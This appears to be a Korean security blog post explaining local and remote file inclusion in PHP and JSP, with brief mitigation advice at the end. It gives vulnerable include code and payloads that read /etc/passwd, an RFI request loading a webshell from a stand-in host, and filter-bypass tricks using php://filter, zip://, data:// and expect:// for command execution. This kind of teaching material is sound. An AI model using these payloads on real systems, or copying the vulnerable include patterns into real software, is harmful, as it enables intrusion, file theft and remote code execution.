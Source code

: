 ```yaml
---
layout: single
title: File Inclusion (LFI/RFI)
categories: Web-vuln
tag: [File Inclusion, LFI,RFI, web, web vulnerability, injection]
toc: true
author_profile: false
---
```


# File Inclusion 취약점이란?

> 해당 취약점은 응용 프로그램에서 File을 불러 올 때 include를 사용하여 코드내에 Built 하거나 동적으로 파일을 포함하는 로직이 구현되어있을경우 일반적으로 나타나며, 다른 Path Traversal 과 같은 타 취약저믈과 연계될 수 있다.

💡 **<u>이러한 File Inclusion은 Local File Inclusion(LFI)와 Remote File Inclusion(RFI)로 나뉜다.</u>** 
{: .notice--primary} 

```javascript
$file = $_GET['file'];

include('testdircetory/' . $file);
```

위와같은 코드는 File Inclusion에 취약한 코드라고 볼 수 있다. 위와 같이 구현되어 있을 경우<br>
아래와 같은 취약점으로 이어질 수 있다.

```
http://test.com/?file=../../../etc/passwd
```

# Local File Inclusion
로컬에 존재하는 파일, 현재 서버에 존재하고 있는 파일을 실행할 수 있으며, 웹 서버의 엑세스 로그, 패스워드파일 등 민감한 파일을 열거 할 수 있으며, 해당 서버에 공격자가 File Upload 취약점을 통해 웹 쉘을 올려놓았어도 이를 Include 시킬 수 있다.

```
GET /testlfi?path=file:///etc/passwd
```

# Remote File Inclusion
원격지에서 파일을 읽어들여 이를 inclusion 하는 취약점이며, 공격자가 본인의 서버에 웹쉘을 미리 생성하여 이를 Inclusion 할 수 있다.<br>
http, ftp uri형식으로 보통 가져온다.

```
GET /testrfi?lib=https://eval.com/webshell.php
```

# 공격 표면
file을 읽은 후 이를 가져올 수 있는 구간이면 해당 취약점을 의심해볼 수 있다. 절대경로 또는 상대경로를 통해 요청을 하였을 시 요청 경로가 삭제되지 않는다면 LFI는 발생한다.

## 언어별 취약 코드 로직

<div class="notice--primary" markdown="1">

- PHP

```php
<?php
if (isset($_GET['file'])) {
    include($_GET['file'] . '.php');
}
?>
```

- JSP

```jsp
<%
   String p = request.getParameter("p");
   @include file="<%="includes/" + p +".jsp"%>"
%>
```

<hr>

```
GET /testlfi?path=file:///etc/passwd
'''
or
'''
GET /testlfi?path=file=../../../../etc/passwd
```
위와같이 테스트해볼 수 있다. 
</div>

# Bypass - File Inclusion

## Null Byte injection

```php
<?php include($_GET['file'].".php"); ?>
```

위와같이 .php 확장자의 파일만 불러올 수 있게 되어있다면, null 바이트 문자를 통해 이를 우회할 수 있다.
> null을 가르키는 특수 바이트 이후의 모든 문자는 무시된다.

```
file=../../../../etc/passwd%00.php
```

## Path and Dot 
PHP 파일 이름은 4096 바이트로 제한되며, 해당 바이트보다 많은 바이트의 이름을 가지고 있다면 PHP는 파일 이름을 자르고 추가 문자를 버리게된다. 해당 방법은 오류가 발생되지 않고 정상적으로 PHP가 동작하게 된다. 이때 쓰레기 값으로 인코딩, DOUBLE 인코딩, 유니코드 인코딩 등의 값으로 채우면 된다.

```
GET /testlfi?path=file=../../../../etc/passwd...............
GET /testlfi?path=file=../../../../etc/passwd\.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\
GET /testlfi?path=file=../../../../etc/passwd/././././././././././././././.
GET /testlfi?path=file=../../../../../../../../../../../../../etc/passwd
```

## PHP Filter
php의 filter은 로컬 파일 시스템에 access 하는데 사용되며, 특히 서버가 파일을 실행하지 못하게 하는 파일의 내용을 가져오는 데 악용할 수 있다.

```
http://[site]/index.php?page=php://filter/convert.base64-encode/resource=FILE
```

위와같이 보낼경우 FILE은 base64로 인코딩된 값을 받아오며, 이를 다시 디코딩하게되면 확인할 수 있다.

<div class="notice">
php://filter/convert.base64-encode/resource=FILE<br>
php://filter/convert.iconv.utf-8.utf-16/resource=FILE<br>
php://filter/convert.base64-encode/resource=FILE<br>
php://filter/zlib.deflate/convert.base64-encode/resource=FILE<br>
rot13 사용도 생각해두자.
</div>

## PHP ZIP
php filter와 같이 php의 wraper 이며, zip파일을 통한 우회가 가능하다.
1. 원하고자 하는 php 파일 생성 ex)shell.php
2. zip 파일로 압축 ex)target.zip
3. zip 파일의 확장자를 jpg과 같이 변경하여 확장 유효성 검사를 우회 후 공격 대상 사이트에 업로드
4. /test/image/upload/ 에 저장되어있을 경우 url을 통해 zip wraper을 실행
5. zip:///test/image/upload/target.jpg%23shell.php

```
http://[site]/index.php?page=zip:///test/image/upload/target.jpg%23shell.php
```

## PHP Data Scheme
원하고자 하는 데이터(쉘코드)를 base64로 인코딩하여 data 스킴을 사용하여 우회할 수 있다.
> 원형 : data://text/plain;base64,BASE64_STR

```
http://[site]/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9wYXNzd2QnKTsgPz4=

// base64 -> <?php echo file_get_contents('/etc/passwd'); ?>
```

## PHP expect
해당 wrapper은 표준입출력 및 표준에러를 통해 프로세스에 대한 액세스를 제공한다. 시스템 명령을 가져올 수 있다.

```
GET /index.php?file=expect://id
GET /index.php?file=expect://ls
```

# 대응 방안
사용자이 입력값 검증을 통해 파일 이름의 크기범위에 대해 제한하며, 특수문자등 필터링이 적절히 이루어져야한다. 또한 URI 에 대한 화이트리스트 기반의 정책을 설정해야한다.

# Reference
- https://www.hahwul.com/cullinan/file-inclusion/
- https://en.wikipedia.org/wiki/File_inclusion_vulnerability#Local_file_inclusion
- https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion